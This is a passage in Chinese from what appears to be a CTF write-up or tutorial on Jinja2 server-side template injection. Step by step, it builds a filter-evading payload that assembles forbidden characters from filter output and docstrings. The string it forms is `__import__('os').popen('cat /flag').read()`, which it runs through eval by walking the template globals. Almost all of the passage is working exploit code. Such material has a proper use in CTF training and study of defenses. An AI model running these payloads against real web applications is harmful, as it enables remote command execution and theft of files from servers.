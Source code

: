 通过上述原理，我们可以依次获得构造payload所需的特殊字符与字符串：

```python
# 首先构造出所需的数字:
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串:
{% set xhx = (({ }|select|string|list).pop(24)|string) %}    # _
{% set space = (({ }|select|string|list).pop(10)|string) %}    # 空格
{% set point = ((app.__doc__|string|list).pop(26)|string) %}    # .
{% set yin = ((app.__doc__|string|list).pop(195)|string) %}    # 单引号 '
{% set left = ((app.__doc__|string|list).pop(189)|string) %}    # 左括号 (
{% set right = ((app.__doc__|string|list).pop(200)|string) %}    # 右括号 )

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc=bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set os = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx*2~but~xhx*2 %}    # __builtins__
```

所使用的过滤器在上面的表格里有链接。

将上面构造的字符或字符串拼接起来构造出 `__import__('os').popen('cat /flag').read()`：

```python
{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}
```

然后将上面构造的各种变量添加到SSTI万能payload里面就行了：

```python
{% for f,v in whoami.__init__.__globals__.items() %}    # globals
    {% if f == bul %} 
        {% for a,b in v.items() %}    # builtins
            {% if a == ev %}    # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

